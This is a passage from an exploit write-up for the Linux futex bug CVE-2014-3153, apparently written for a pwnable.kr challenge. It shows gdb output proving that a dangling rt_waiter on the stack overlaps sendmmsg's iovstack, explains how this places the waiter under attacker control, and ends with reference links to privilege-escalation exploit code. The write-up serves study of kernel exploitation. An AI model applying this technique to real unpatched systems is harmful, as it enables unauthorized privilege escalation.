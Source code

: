 We enforce two limitations on the system call we're looking for.
1. It is deep enough in order to overlap with our dangling `rt_waiter`.
2. The local variable within the function that overlaps `rt_waiter` is controllable.

The syscalls `sendmsg`, `recvmsg`, and `sendmmsg` are the adjacent functions to `futex_wait_requeue_pi` in terms of stack usage.  
That should be a good place to start.
We'll be using `sendmmsg` throughout the exploit.

```
Breakpoint 1, futex_wait_requeue_pi (uaddr=uaddr@entry=0x80ff44c, flags=flags@entry=0x1, val=val@entry=0x0,
    abs_time=abs_time@entry=0x0, uaddr2=uaddr2@entry=0x80ff450, bitset=0xffffffff) at kernel/futex.c:2285

(gdb) set $waiter = &rt_waiter

Breakpoint 2, ___sys_sendmsg (sock=sock@entry=0xc5dfea80, msg=msg@entry=0x80ff420, msg_sys=msg_sys@entry=0xc78cbef4,
    flags=flags@entry=0x0, used_address=used_address@entry=0xc78cbf10) at net/socket.c:1979

(gdb) p $waiter
$12 = (struct rt_mutex_waiter *) 0xc78cbe2c

(gdb) p &iovstack
$11 = (struct iovec (*)[8]) 0xc78cbe08

(gdb) p sizeof(iovstack)
$13 = 0x40

(gdb) p &iovstack < $waiter < (char*)&iovstack + sizeof(iovstack)
$14 = 0x1 (True)
```
I set two breakpoints, at [`futex_wait_requeue_pi()`] and [`___sys_sendmsg()`] in order to understand what arguments should we pass to the `sendmmsg` syscall
so that `rt_waiter` is under our control.

When the breakpoint hits on [`futex_wait_requeue_pi()`], I do nothing besides storing the address of `rt_waiter` in `$waiter`.
When it hits on [`___sys_sendmsg()`], I check for the address of the local variable `iovstack`, which is of type `struct iovec[8]`, and examine its size.

**Variable** | **Address**
`rt_waiter` | `0xc78cbe2c`
`iovstack` | `0xc78cbe08` - `0xc78cbe48`

Proved `futex_wait_requeue_pi:rt_waiter` overlaps with `___sys_sendmsg:iovstack`.

Let's take a look at `sendmmsg`'s signature.
```c
int sendmmsg(int sockfd, struct mmsghdr *msgvec, unsigned int vlen,
                    int flags);

struct mmsghdr
{
	struct msghdr msg_hdr;
	unsigned int msg_len;
};

struct msghdr
{
	void *msg_name;
	socklen_t msg_namelen;
	struct iovec *msg_iov; // <-- iovstack
	size_t msg_iovlen;
	void *msg_control;
	size_t msg_controllen;
```

[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c